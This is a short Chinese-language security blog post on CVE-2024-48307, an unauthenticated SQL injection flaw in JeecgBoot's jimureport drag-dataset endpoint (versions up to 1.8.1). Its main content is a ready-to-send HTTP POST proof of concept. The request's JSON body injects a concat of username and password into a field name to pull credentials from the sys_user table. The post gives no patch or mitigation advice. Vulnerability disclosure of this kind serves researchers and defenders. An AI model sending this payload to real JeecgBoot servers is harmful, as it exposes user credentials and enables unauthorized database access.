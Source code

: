 #  CVE-2024-48307｜JeecgBoot SQL 注入漏洞（POC）   
alicy  实战安全研究   2024-12-09 16:18  
  
**0x00 前言**  
  
  
JeecgBoot是一款基于BPM的低代码平台！前后端分离架构 SpringBoot 2.x，SpringCloud，Ant Design&Vue，Mybatis-plus，Shiro，JWT，支持微服务。强大的代码生成器让前后端代码一键生成，实现低代码开发！  
  
  
  
**0x01 漏洞描述**  
  
> JeecgBoot v3.7.1中的/onlDragDatasetHead/getTotalData组件发现存在SQL注入漏洞。攻击者可以无需权限利用jimureport-dashboard-spring-boot-starter-1.8.1-beta.jar查询数据库，导致数据库信息泄露。  
  
> —— ——来源于网络  
  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-48307  
  
  
  
**0x03 影响版本**  
  
  
jimureport-spring-boot-starter.version<=1.8.1  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
```
POST /jeecg-boot/drag/onlDragDatasetHead/getTotalData HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 284
{"tableName":"sys_user","compName":"test","condition":{"filter":{}},"config":{"assistValue":[],"assistType":[],"name":[{"fieldName":"concat(username,0x3a,password)","fieldType":"string"},{"fieldName":"id","fieldType":"string"}],"value":[{"fieldName":"id","fieldType":"1"}],"type":[]}}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6upNheIhsia6DicSVsSHht68FGbO9WfGR4wCmmPTlBNXqllkKib81anXibtbNc0HJiaU59LichTh1yqicwaqg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://github.com/jeecgboot/JeecgBoot/issues/7237  
  
  
